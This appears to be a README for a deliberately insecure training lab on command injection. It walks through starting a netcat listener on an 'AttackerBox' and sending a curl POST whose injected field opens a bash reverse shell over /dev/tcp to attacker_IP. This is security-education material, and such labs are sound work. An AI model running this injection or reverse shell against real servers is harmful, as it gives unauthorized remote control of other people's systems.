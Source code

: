# 🔥 Vulnerable Labs: Shell Yeah - Let's Go in Reverse
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll build on your understanding of command injection, craft and execute a reverse shell payload.

### 🎯 Your Mission

1. Using CloudShell, SSH to the AttackerBox.
```bash 
ssh -i ~/lab_key.pem ubuntu@attacker_IP
```
2. Run a netcat listener: 
```bash
nc -lvp 5789
```
3. Run the following command from your laptop:
```bash
curl -X POST http://website_IP/score -d '""; bash -c "/bin/bash -i > /dev/tcp/attacker_IP/5789 0<&1 2>&1" #'
```

### 💥 Hints & Tips

Note: Don't forget to substitute:
- "website_ip" for the Public IP address of your WebServer EC2 instance
- "attacker_IP" for the Public IP address of your AttackerBox EC2 instance 
